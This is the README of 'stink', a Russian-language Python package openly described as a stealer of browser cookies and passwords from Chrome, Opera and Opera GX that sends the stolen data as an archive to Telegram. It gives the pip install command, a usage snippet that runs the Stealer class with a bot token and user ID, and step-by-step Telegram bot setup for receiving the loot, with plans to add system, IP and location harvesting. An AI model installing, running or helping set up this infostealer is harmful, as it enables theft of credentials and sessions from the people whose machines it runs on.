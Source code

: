 # stink

Стиллер куки и паролей с отправкой в Telegram.

## Описание
`stink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Будущие возможности](#Будущие-возможности)
* [Установка](#Установка)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)

### Текущие возможности
1. Сбор куки и паролей следующих браузеров: Chrome, Opera, Opera GX.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Добавление других браузеров.
2. Сбор информации о системе.
3. Сбор айпи и местоположения.
 
## Установка

Установить последнюю версию можно командой:
```
pip install stink
```

## Пример использования
### Стандартный
```python
from stink.multistealer import Stealer

stealer = Stealer(token="YOUR_TOKEN", user_id=YOUR_ID)
stealer.run()
```

## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду `/newbot`.
<p align="left">
  <a href="">
    <img src="docs/1.png" width="350px" style="display: inline-block;">
  </a>
</p>
3. Прописываем название бота с прикладкой `_bot` в конце.
<p align="left">
  <a href="">
    <img src="docs/2.png" width="350px" style="display: inline-block;">
  </a>
</p>
4. Прописываем команду `/token`, затем название бота с прикладкой `@` в начале.
<p align="left">
  <a href="">
    <img src="docs/3.png" width="350px" style="display: inline-block;">
  </a>
</p>
5. Полученный токен вставляем в поле `"YOUR_TOKEN"` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду `/start`.
<p align="left">
  <a href="">
    <img src="docs/4.png" width="350px" style="display: inline-block;">
  </a>
</p>
4. Полученный айди вставляем в поле `YOUR_ID` в скрипте.
